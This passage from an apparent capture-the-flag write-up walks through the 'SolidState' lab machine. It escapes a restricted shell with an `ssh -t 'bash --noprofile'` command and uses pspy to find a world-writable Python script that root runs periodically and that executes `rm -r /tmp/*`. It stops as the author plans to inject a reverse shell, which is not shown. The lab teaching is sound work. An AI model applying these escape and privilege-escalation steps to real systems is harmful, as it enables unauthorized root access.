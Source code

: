### Lateral Movement

Checking online on how to escape rbash with ssh found this interesting way to bypass the rbash by just adding a -t to the ssh command

```
└──╼ $ssh mindy@10.10.10.51 -t 'bash --noprofile'
mindy@10.10.10.51's password:
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ id
uid=1001(mindy) gid=1001(mindy) groups=1001(mindy)
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ pwd
/home/mindy
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ whoami
mindy
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$
```

### Privilege Escalation

Now we can run LinPEAS and other enum tools

Nothing interesesting in LinPEAS, lets try running some other enum script

PSPY - A process spy tool, which spits out running processes from memory

We find an interesting script which is running as root - 

```
2025/05/11 05:30:01 CMD: UID=0     PID=3095   | /bin/sh -c python /opt/tmp.py
2025/05/11 05:30:01 CMD: UID=0     PID=3096   | sh -c rm -r /tmp/*
2025/05/11 05:30:01 CMD: UID=0     PID=3097   | rm -r /tmp/*
```

Lets check this /opt/tmp.py script

```
${debian_chroot:+($debian_chroot)}mindy@solidstate:~/tmp$ cd /opt
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ cat tmp.py
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()

${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ ls -la
total 16
drwxr-xr-x  3 root root 4096 Aug 22  2017 .
drwxr-xr-x 22 root root 4096 May 27  2022 ..
drwxr-xr-x 11 root root 4096 Apr 26  2021 james-2.3.2
-rwxrwxrwx  1 root root  105 Aug 22  2017 tmp.py
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$
```

The script is removing the contents of /tmp/ and checking the permiossions, it looks like we can just edit this file as everyone has *rwx* permissions on it. It will run again in sometime in the bg, lets inject a reverse shell payload
